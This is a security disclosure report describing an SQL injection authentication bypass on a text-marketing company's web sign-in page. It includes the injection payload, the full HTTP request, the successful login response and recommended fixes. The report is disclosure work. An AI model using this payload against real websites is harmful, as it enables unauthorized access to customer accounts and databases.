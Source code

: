 ```yaml
---
layout: reports
permalink: /reports/GWA-2020-022/
tagline: "On 26 February 2020 GlitchWitch discovered an SQL Injection vulnerability at textlogisitics.com"
image:
  feature:
  hero:
report-id: GWA-2020-022
---
```


## Summary
Due to the lack of input santization it is possible to perform an SQL injection against various end-points on the web application. Using a common SQL injection technique it was possible to bypass authentication and login as an administrative user.


>[About Text Logistics:](http://textlogistics.com/) "Text Logistics provides easy to use tools to help you connect with your customers and promote retention while gaining valuable insight and information. We provide text marketing, appointment reminders, click-to-call service and instant group text alerts."

## Proof of Concept

For a proof of concept we will target the `/clients/signin.asp` end-point. It was noted that the following end-point was also vulnerable `/appstoreredirect.asp?id=1`.

To exploit this vulnerability we can simply input `-1' OR 1=1` into the username field and click submit.

The subsequent request will look like the following

```http
POST /clients/signin.asp HTTP/1.1
Host: www.textlogistics.com
Connection: close
Content-Length: 33
Content-Type: application/x-www-form-urlencoded
User-Agent: Hacker 7.23

email=-1%27+OR+1%3D1%16&password=
```
![image tooltip here](/assets/img/sections/reports/2020/022/textlogistics-signin.png)


we should receive the following response, indicating we have successfully logged in.

```
HTTP/1.1 302 Object moved
Cache-Control: private
Content-Type: text/html
Location: welcome.asp
Server: Microsoft-IIS/8.5
Set-Cookie: memberID=1517; path=/
Set-Cookie: [REDACTED]; path=/
Set-Cookie: [REDACTED]; secure; path=/
X-Powered-By: ASP.NET
X-Powered-By-Plesk: PleskWin
Date: Wed, 26 Feb 2020 03:30:33 GMT
Connection: close
Content-Length: 132

<head><title>Object moved</title></head>
<body><h1>Object Moved</h1>This object may be found <a HREF="welcome.asp">here</a>.</body>
```
![image tooltip here](/assets/img/sections/reports/2020/022/textlogistics-welcome.png)

It is important to note that while this proof of concept only demonstrates an authentication bypass, it would be possible for an attacker to download the entire application database, make modifications, and even perform remote command execution.


## Recommended Actions
 - Implement proper input santization to prevent SQLi and other injection attacks.
 - Inspect logs to determine if unauthorized access to the database has occurred.
 - Implement security and bug reporting information such as a [security.txt](https://securitytxt.org/) file so security researchers can more easily report findings in the future.
 - Perform a full penetration test of the web platform and API to identify further issues.

## Response From Affected Party
At the time of publishing no response has been received.

